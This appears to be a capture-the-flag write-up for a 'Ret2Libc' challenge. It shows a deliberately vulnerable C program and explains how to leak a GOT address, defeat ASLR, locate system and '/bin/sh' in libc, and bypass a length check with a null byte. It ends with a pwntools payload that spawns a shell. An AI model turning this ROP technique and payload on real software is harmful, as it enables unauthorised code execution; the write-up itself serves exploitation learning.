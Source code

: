 # Ret2Libc

```C
#include<stdio.h>
//#include<stdlib.h>

int main(){
    setvbuf(stdout,0,2,0);
    printf( "Where do you want to see in the memory? Give me the address in decimal:" );
    long *p;
    scanf( "%ld" , &p );
    printf( "The value in memory at %p is %p.\n" , p , *p );

    puts("Bypass the check, and ret2libcccccccccccc");

    char buf[10];
    read( 0 , buf , 200 );
    
    if( strlen( buf ) > 6 ) {
        puts( "It could not > 6. If you want the flag, Over my dead body!!!!!" );
        exit(0);
    }

    return 0;
}
```
Because ASLR is on, so we need to leak out the real address at the time running the program.

As we can see, we can throw a decimal address to obtain the real address.

So, which address should we throw?

There are two options: 1.setvbuf 2.printf

For my solution, I chose the second choice. Now, what address should we throw over?

Here, another required knowledge is about `Lazy Binding`, which has to do with `PLT (Procedure Linkage Table)` and `GOT (Global Offset Table)`. Once a function is called, its address in GOT will remain.

    400773:	bf 98 08 40 00       	mov    $0x400898,%edi
    400778:	b8 00 00 00 00       	mov    $0x0,%eax
    40077d:	e8 6e fe ff ff       	callq  4005f0 <printf@plt>
    
 From `objdump` we can see that calling `printf()` is calls `4005f0 <printf@plt>`. So that continue to look at where it goes.
 
    00000000004005f0 <printf@plt>:
    4005f0:	ff 25 32 0a 20 00    	jmpq   *0x200a32(%rip)        # 601028 <_GLOBAL_OFFSET_TABLE_+0x28>
    4005f6:	68 02 00 00 00       	pushq  $0x2
    4005fb:	e9 c0 ff ff ff       	jmpq   4005c0 <_init+0x28>
    
 Ah! It goes to `print@plt` and in the first line it jumps to `601028` in the GOT. GOT address will be one we need.
 
 Remeber this equation:
 
  <b> `Real Address = Base Address + Offset` </b>
  
So, where do we find offset of a function? Libc.so.6!

There are two ways to read `libc.so.6`:

  1.  objdump -T libc.so.6
  2.  readelf -s libc.so.6
 
For me, I prefer the second one, since it looks nicer.

After we have the offset of `printf`, we can now caculate the base address:

    Real Address (Obtain from output) = Base Address + Offset (Obtain from libc.so.6)
    Base Address = printf_addr - printf_offset
    
Then we need `system` since our goal is to call `system("/bin/sh")`

Agian `system` offset can be found in `libc.so.6`.
  
    system_addr = base_addr + system_offset
    
Now how about `/bin/sh`? Let's try finding it in `libc.so.6`! Luckily, we found it!

    strings -t x libc.so.6 | grep "/bin/sh"
    
Next, we need to caculate our payload from `objdump`, which is 0x28. 

And one import thing is to put `/bin/sh` into rdi, so, again, we need our ROPgadget:

    ROPGadget --binary ret2libc --ropchaing | grep 'pop rdi ; ret'

Later on....oh! There's one more thing if we look at `ret2libc.c` -- 

```C
if( strlen( buf ) > 6 ) {
    puts( "It could not > 6. If you want the flag, Over my dead body!!!!!" );
    exit(0);
}
```

 Hmmmmmm....Length checking... how are we going to pass this and overflow?
 
This has to do with a feature of string -- <b>end with `\x00` or `\0`</b>
 
Our payload will need five bytes first with `\x00` as the 6th byte then fill up the rest with padding (0x28 - 6 = 0x22 bytes)

Thus, the final payload will be:
  
```Python
p.sendline(b"A"*0x5 + b"\x00" + b"\x90"*0x22 + p64(0x400873) + p64(bin_sh_addr) + p64(sys_addr))
```
  

 
 
